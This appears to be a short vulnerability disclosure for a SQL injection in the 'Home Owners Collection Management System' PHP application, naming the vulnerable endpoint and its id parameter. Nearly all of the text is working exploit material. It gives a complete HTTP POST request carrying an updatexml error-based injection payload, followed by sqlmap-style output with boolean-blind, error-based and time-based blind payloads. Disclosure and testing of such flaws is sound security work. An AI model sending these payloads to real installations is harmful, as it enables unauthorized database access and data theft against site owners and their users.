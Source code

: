 ## Home Owners Collection Management System has SQL injection vulnerability

vendor : https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_phase

Vulnerability location: /hocms/classes/Master.php?f=delete_phase,id

[+]Payload: id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /hocms/classes/Master.php?f=delete_phase HTTP/1.1
Host: 192.168.1.19
Content-Length: 64
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/hocms/admin/?page=phases
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vfe306mj2a11p5q94440ttg4bd
Connection: close

id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point
```
![image](https://user-images.githubusercontent.com/54017627/160325818-ac191114-24a8-4a0b-8e9c-d21dfa34f1ec.png)


```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=1' RLIKE (SELECT (CASE WHEN (3093=3093) THEN 1 ELSE 0x28 END))-- TVaW

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 9655 FROM(SELECT COUNT(*),CONCAT(0x716a787a71,(SELECT (ELT(9655=9655,1))),0x71786a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- rFkx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 5645 FROM (SELECT(SLEEP(5)))IsZT)-- rkXc
---
```

![image](https://user-images.githubusercontent.com/54017627/160326540-e08d85fa-c3d5-426b-82ca-45f598e7e715.png)
